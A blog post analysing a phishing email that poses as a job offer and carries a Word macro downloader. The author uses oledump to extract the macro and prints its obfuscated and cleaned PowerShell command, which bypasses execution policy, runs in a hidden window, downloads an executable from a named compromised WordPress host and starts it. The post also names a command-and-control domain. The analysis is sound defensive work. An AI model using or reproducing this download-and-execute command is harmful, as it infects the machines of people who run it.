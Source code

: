 ```yaml
---
title: "Analysis of a Word macro virus - 2701.doc"
date: 2017-01-27 10:46:08 +0100
draft: false
---
```


On 2017-01-27, I received a suspicious email on an address I no longer use.

EDIT: I received two more emails with the same file, only the message was different. Is it a recent ongoing spam campaign?

>Hello,

>My name is Adam Buchbinder, I saw your GitHub repo and i'm pretty amazed. 
The point is that i have an open position in my company and looks like you
are a good fit. 

>Please take a look into attachment to find details about company and job.
Dont hesitate to contact me directly via email highlighted in the document below. 

>Thanks and regards,
Adam.

Gmail refused to synchronise this email, saying it contained "a virus or a suspicious attached file". Indeed, opening the attached .doc file on my phone, I only saw a yellow screen telling me to "Enable macros to see this document". Highly suspicous!

<!-- more -->

According to VirusTotal, only 4/54 AVs detected this file as a threat.

![VirusTotal analysis](/images/vt_2701_doc.png)

I transfered the file to my computer to analyse it using Didier Stevens's fantastic [oledump.py](https://blog.didierstevens.com/programs/oledump-py/). First of all, I wanted to see what the malicious code looked like. This is easily done by checking which streams contain executable VBA code:

``./oledump.py 2701.doc``

    1:       114 '\x01CompObj'
    2:      4096 '\x05DocumentSummaryInformation'
    3:      4096 '\x05SummaryInformation'
    4:     11555 '1Table'
    5:       367 'Macros/PROJECT'
    6:        41 'Macros/PROJECTwm'
    7: M   84985 'Macros/VBA/ThisDocument'
    8:     16765 'Macros/VBA/_VBA_PROJECT'
    9:       517 'Macros/VBA/dir'
    10:       216 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Item'
    11:       341 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Properties'
    12:     15974 'WordDocument'

We can see that stream number 7 contains VBA code, so we'll extract it using the ``-s`` and ``-v`` switches.

``./oledump.py 2701.doc -s 7 -v``

    Attribute VB_Name = "ThisDocument"
    Attribute VB_Base = "1Normal.ThisDocument"
    Attribute VB_GlobalNameSpace = False
    Attribute VB_Creatable = False
    Attribute VB_PredeclaredId = True
    Attribute VB_Exposed = True
    Attribute VB_TemplateDerived = True
    Attribute VB_Customizable = True
    Function ytesobpu()
    ytesobpu = "oswoqhy"
    
    ...snipping about 2000 lines...
    
    yvluxju = "24940"
    urucahinc = "99405"
    tniwfi = "yjunyk"
    bcukifx = "75236"
    mfihmuwz = "12310"
    ymuba = tniwfi + bcukifx & "10481" + egebi & mfihmuwz
     
    End If
    
    End Sub

Okay, if you want to sniff through it [go ahead](/assets/documents/2701.doc.vba), but I'm no doing it. oledump has a nice option to try and extract any HTTP calls in an OLE document, so we'll just use that.

``./oledump.py 2701.doc -p plugin_http_heuristics``


    1:       114 '\x01CompObj'
    2:      4096 '\x05DocumentSummaryInformation'
    3:      4096 '\x05SummaryInformation'
    4:     11555 '1Table'
    5:       367 'Macros/PROJECT'
    6:        41 'Macros/PROJECTwm'
    7: M   84985 'Macros/VBA/ThisDocument'
               Plugin: HTTP Heuristics plugin 
                 "CMD.exe /C poWe^RsH^E^lL.EX^e     ^-eXE^CUT^I^o^n^Po^LI^Cy byp^As^s^    ^-N^Opr^O^Fi^l^e -^winDowST^yLE^    h^IDden   ^(n^e^W-O^bje^CT^    s^ySte^M^.^NET.W^Eb^cLi^En^T^)^.^dOW^Nl^oa^d^FI^lE('http://nicklovegrove.co.uk/wp-content/margin2601_onechat_word.exe','%APPdAta%.Exe');s^TArT-pRO^C^Es^S '%APpdaTa%.ExE'"
    8:     16765 'Macros/VBA/_VBA_PROJECT'
    9:       517 'Macros/VBA/dir'
    10:       216 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Item'
    11:       341 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Properties'
    12:     15974 'WordDocument'
 
 By cleaning up the command, here's what we can see:
 
 ``` shell
 cmd.exe /C powershell.exe 
 -executionPolicy bypass 
 -noProfile 
 -windowStyle hidden 
 (newObject System.NET.WebClient)
     .downloadFile('http://nicklovegrove.co.uk/wp-content/margin2601_onechat_word.exe', 
	               '%APPDATA%.exe'); 
 start-process '%APPDATA%.exe'
 ```
 
 Looks like the macro tries to download a file at http://nicklovegrove.co.uk , probably a hacked WordPress site (seriously, update your WordPress!).
 
 This file ``margin2601_onechat_word.exe`` gets a score of 6/54 on VirusTotal.
 
 ![VirusTotal's result on the EXE file](/images/vt_margin_exe.png)
 
 
Analysing it on [Hybrid-Analysis](https://hybrid-analysis.com) shows that the virus drops a malicious DLL file (``bckedip.dll``) on the target machine (the file is detected as a trojan). It also does POST requests to ``onechat.pw``.

[Here's a link to the analysis](https://www.hybrid-analysis.com/sample/3f73b09d9cdd100929061d8590ef0bc01b47999f47fa024f57c28dcd660e7c22?environmentId=100)

Further analysis on a Virtual Machine could be interesting.
